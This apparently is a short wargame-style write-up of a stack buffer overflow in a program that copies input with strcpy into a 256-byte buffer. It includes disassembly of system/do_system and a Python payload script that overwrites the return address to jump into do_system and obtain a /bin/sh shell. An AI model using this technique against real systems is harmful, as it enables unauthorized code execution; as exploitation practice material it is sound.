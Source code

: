 # Vulnerability
```
char buffer[256];
strcpy(buffer, temp);
```
This program uses strcpy function that does not checks boundary.

# Exploitation
I will use `do_system` function which called by `system` function:
```
0x007507fe <system+62>:	jmp    0x750320 <do_system>
0x00750803 <system+67>:	lea    0xffff4617(%ebx),%eax
0x00750809 <system+73>:	call   0x750320 <do_system>
```
When disassembly `do_system`, You can see assembly code setting parameter with program's name and `/bin/sh`:
```
0x00750784 <do_system+1124>:	mov    0xfffffec4(%ebx),%ecx
0x0075078a <do_system+1130>:	xor    %edx,%edx
0x0075078c <do_system+1132>:	xor    %eax,%eax
0x0075078e <do_system+1134>:	mov    %edx,0x16bc(%ebx)
0x00750794 <do_system+1140>:	lea    0xffff460f(%ebx),%edx
```
So I will give ret address to that point.

# Payload
```python
import os

payload = ""
payload += "A"*264
payload += "B"*4
payload += "\x84\x07\x75\x00"

print payload
```
